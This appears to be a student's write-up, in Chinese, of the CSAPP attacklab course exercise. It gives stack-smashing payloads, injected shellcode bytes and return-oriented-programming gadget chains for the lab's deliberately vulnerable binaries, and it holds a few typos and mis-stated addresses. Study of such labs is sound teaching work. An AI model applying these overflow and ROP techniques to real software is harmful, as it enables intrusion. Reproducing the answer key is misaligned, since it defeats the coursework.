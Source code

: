 # attacklab 实验报告

## CI

### 第一关

实验文档的提示以及很详细了。先找到 getbuf，发现缓冲区的长度为 24 字节；

然后找到 touch1 的地址为 `0x0000000000401695`；

只需先用任意字符串填充缓冲区的 24 字节，然后将后面 return address 的 8 个字节覆盖为 touch1 的地址即可，注意小端法。

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
95 16 40 00 00 00 00 00
```



### 第二关

这里需要在进入 touch2 之前，提前修改 %rdi 的值，我们可以在栈上注入代码；

我们需要先找到调用 Gets 函数时的栈顶地址，因为这里的栈底地址是固定为 `0x00007fffffffffff`，因此无论运行多少次，走到 Gets 的时候栈顶地址都一定是固定的；

使用 `info regi` 指令，得知此时的栈顶地址为 `0x55654c98`，我们就在这 24 字节长的缓冲区中，注入我们的攻击代码；

攻击代码的汇编形式如下：

```assembly
pushq $0x4016c1 # touch2
movq $0x3d9549ca, %rdi
req
```

使用实验文档的方式得到带有字节代码的汇编代码：

```assembly

ctarget.l2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	68 c1 16 40 00       	pushq  $0x4016c1
   5:	48 c7 c7 ca 49 95 3d 	mov    $0x3d9549ca,%rdi
   c:	c3                   	retq   

```

注入的代码的字节码为：`68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3`。由于长度不足 24 字节，因此使用任意字符 `0x0a` 除外填充至 24 字节，跟上栈顶地址 `0x55654c98`。

```c
68 c1 16 40 00 48 c7 c7 ca 49 95 3d c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
```



### 第三关

这和第二关的区别是，这里需要把 %rdi 赋值为 "3d9549ca" 字符串的首地址，而这个 "3d9549ca" 也需要我们在栈区上注入；

根据实验文档的提示，`调用*hexmatch*和*strncmp*函数时，会将数据压入栈中，覆盖*getbuf*使用的缓冲区的内存，你需要很小心把你的cookie字符串表示放在哪里`。

如果我们把字符串存在 getbuf 的缓冲区中，则 hexmatch 函数中进行比较的时候，%rdi 寄存器存储的地址依然在 getbuf 缓冲区，但是这是我们的 cookie 字符串已经被 hexmatch 函数破坏了；

因此我们需要将 cookie 字符串注入到一个不会被影响的地方。

经过断点调试，发现 getbuf 栈帧开始的 24 个字节，会被 hexmatch 和 strncmp 函数破坏，因此我们只需将 cookie 字符串存到这个区域外，且不能和 getbuf 的 return address 区冲突即可。

那么不妨存到 `0x55654cb8`，我们将 cookie `3d9549ca` 转为对应 ASCII 码的十六进制表示：`33 64 39 35 34 39 63 61`。

注入的代码：

```assembly
pushq $0x4017ad # touch3
movq $0x55654cb8, %rdi
req
```

```assembly
   0:	68 ad 17 40 00       	pushq  $0x4017ad
   5:	48 c7 c7 b8 4c 65 55 	mov    $0x55654cb8,%rdi
   c:	c3                   	retq   
```

`68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3`

```c
68 ad 17 40 00 48 c7 c7 b8 4c 65 55 c3 00 00 00 00 00 00 00 00 00 00 00
98 4c 65 55 00 00 00 00
33 64 39 35 34 39 63 61
```



## ROP

由于采取了下面两种防护技术：

1. 采用了随机化，每次运行栈的位置都不同。所以无法决定你的注入代码应该放在哪里。
2. 将保存栈的内存区域设置为不可执行，所以即使你能把注入的代码的起始地址放到程序计数器中，程序也会报段错误失败。

查看栈顶地址变得没有意义了，因为每次都不一样。但是只有 Stack 栈底的地址会随机化，Text 区的函数入口们的地址并不会变化，因此可以将 return address 改为这些地址，利用多个片段汇编代码，实现我们的攻击逻辑。

下面是一些常用的 gadget：

![图2](https://course.educg.net/userfiles/markdown/exp/2022_1/748ll1643203261.jpg)

### 第二关

我们能使用的指令如下：

> *movq*：代码如图2A所示。
>
> *popq*；代码如图2B所示。
>
> *ret*：该指令编码为0xc3。
>
> *nop*：该指令编码为0x90。

我们可以将 cookie 存到栈上，使用 pop 指令将其出栈后推导寄存器中。但是 farm 中没有 `popq %rdi`。经过翻找，发现只有一个 `58 90 c3`，可以满足 `popq %rax` 然后 `retq`：

```assembly
0000000000401873 <addval_385>:
  401873:	8d 87 00 58 90 c3    	lea    -0x3c6fa800(%rdi),%eax
  401879:	c3                   	retq   
```

我们只能先 `popq %rax`，然后 `movq %rax %rdi`。翻找后发现 `movq %rax %rdi`(48 89 c7) 有两处：

```assembly
0000000000401858 <setval_422>:
  401858:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  40185e:	c3                   	retq   
  
0000000000401866 <setval_246>:
  401866:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  40186c:	c3                   	retq   
```

先把前 24 个字节填上，它们没用了；

从 return address 开始，先让 getbuf 的 retq 到 `popq %rdi` 指令地址 `0x761840`(小端法)；

此时 getbuf 的 retq 操作已经把 24 个字节后的第一个 8 字节出栈了，此时 %rsp 指向第二个 8 字节，我们手动触发的 popq 操作会把这第二个 8 字节传到 %rax，因此我们必须把 cookie 的立即数存储到这第二个 8 字节 `0xca49953d`(小端法)；

完成后 %rsp 指向第三个 8 字节，addval_385 在执行完 `popq %rax` 后会执行 retq，再一次出栈并跳转，因此我们把 `movq %rax %rdi` 的地址放到第三个 8 字节中 `0x5a1840`(小端法)；

此时 %rsp 指向第四个 8 字节，这里就放 touch2 的地址，用于被 setval_422 的 retq 调用跳转 `0xc11640`(小端法)；

```c
00 01 02 03 04 05 06 07 08 09 00 01 02 03 04 05 06 07 08 09 00 01 02 03
76 18 40 00 00 00 00 00
ca 49 95 3d 00 00 00 00
5a 18 40 00 00 00 00 00
c1 16 40 00 00 00 00 00
```



